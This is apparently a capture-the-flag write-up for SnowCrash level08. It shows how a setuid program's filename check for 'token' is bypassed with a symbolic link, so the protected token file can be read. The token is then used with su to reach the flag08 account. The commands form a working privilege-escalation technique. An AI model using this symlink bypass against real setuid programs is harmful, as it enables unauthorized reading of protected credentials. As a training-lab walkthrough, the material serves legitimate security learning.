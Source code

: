# Level08

## Research

```bash
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

```bash
level08@SnowCrash:~$ strings level08
[...]
printf
strstr
read
open
[...]
token
```

We can see that the programs calls strstr and that 'token' is hard written in the code.
Maybe it won't read anyfile with 'token' in the name.

```bash
level08@SnowCrash:~$ echo 'hello' > /tmp/hello
level08@SnowCrash:~$ ./level08 /tmp/hello
hello
level08@SnowCrash:~$ ./level08 /tmp/cctoken
You may not access '/tmp/cctoken'
```
The theory seems true: the program will open, read and print anyfile which doesn't have token in its name.

How to make it access and read `token` through a file not named 'token'?

## Solution

https://techterms.com/definition/symbolic_link

We can use symbolic links: </br>

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
```
And then connect to flag08 using `quif5eloekouj29ke0vouxean`
```bash
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
```
